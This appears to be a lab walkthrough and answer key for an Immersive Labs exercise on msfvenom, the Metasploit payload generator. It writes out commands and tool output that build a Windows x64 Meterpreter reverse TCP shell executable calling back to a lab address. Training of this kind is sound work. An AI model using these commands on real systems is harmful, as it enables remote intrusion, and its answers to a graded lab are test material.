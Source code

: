 About:
https://immersivelabs.online/labs/msfvenom/

Msfvenom
msfvenom is a combination of two frameworks that were used prior to June 2015: msfpayload and msfencode.

msfvenom was created as a quick standalone payload generator and encoder that would standardise the command line options for the previous tool set.

MITER ATT&CK
T1027
Obfuscated Files or Information: https://attack.mitre.org/versions/v6/techniques/T1027/

Lab:
Tasks
Get acquainted with msfvenom.
Using msfvenom on the Immersive Labs Kali client, answer the questions to earn the badge.

Question 1 of 5
Which option would you give to -p if you wanted to create a Windows x64 stageless reverse shell TCP payload?


Question 2 of 5
If you wanted to make sure your generated payload did not contain any null bytes, what option would you provide?
-b '\x00' 

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
See MSFvenom Command Line Usage

Question 3 of 5
Which encoder (Name) will use a single-byte XOR countdown encoder?

Question 4 of 5
Which of the following would correctly generate a reverse Meterpreter shell?

	msfvenom -p windows/x64/meterpreter/bind_udp lhost=172.21.1.1 lport=443 -f exe -o shell.exe

x	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe

	msfvenom -p windows/x64/meterpreter/reverse_tcp -lhost 172.21.1.1 -lport 443 -f exe -o shell.exe

	msfvenom -p windows/x64/shell_reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe

Question 5 of 5
Using the correct payload from the question above, generate this payload. What is the final payload size?
510


msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe
``
[*] exec: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.21.1.1 lport=443 -f exe -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
``